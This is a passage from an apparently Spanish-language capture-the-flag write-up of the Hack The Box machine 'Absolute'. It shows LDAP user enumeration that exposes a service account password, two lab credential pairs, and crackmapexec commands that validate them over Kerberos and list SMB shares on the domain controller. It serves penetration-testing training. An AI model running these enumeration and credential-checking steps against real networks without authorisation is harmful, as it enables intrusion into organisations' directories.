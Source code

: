 ```bash
LDAP        10.10.11.181    389    DC               D.Klay
LDAP        10.10.11.181    389    DC               s.osvald
LDAP        10.10.11.181    389    DC               j.robinson
LDAP        10.10.11.181    389    DC               n.smith
LDAP        10.10.11.181    389    DC               m.lovegod
LDAP        10.10.11.181    389    DC               l.moore
LDAP        10.10.11.181    389    DC               c.colt
LDAP        10.10.11.181    389    DC               s.johnson
LDAP        10.10.11.181    389    DC               d.lemm
LDAP        10.10.11.181    389    DC               svc_smb                        AbsoluteSMBService123!
LDAP        10.10.11.181    389    DC               svc_audit
LDAP        10.10.11.181    389    DC               winrm_user                     Used to perform simple network tasks
```

- Tenemos nuevas credenciales.

```bash
D.Klay:Darkmoonsky248girl
svc_smb:AbsoluteSMBService123!
```

- Si las revisamos vemos que son correctas usando el protocolo de `kerberos`.

```bash
➜  content crackmapexec smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123!
```

## m.lovegod

- Podemos volver a listar recursos compartidos por el protocoló `smb`.

```bash
➜  content crackmapexec smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k --shares
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123!
SMB         10.10.11.181    445    DC               [+] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.181    445    DC               Shared          READ
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share
```
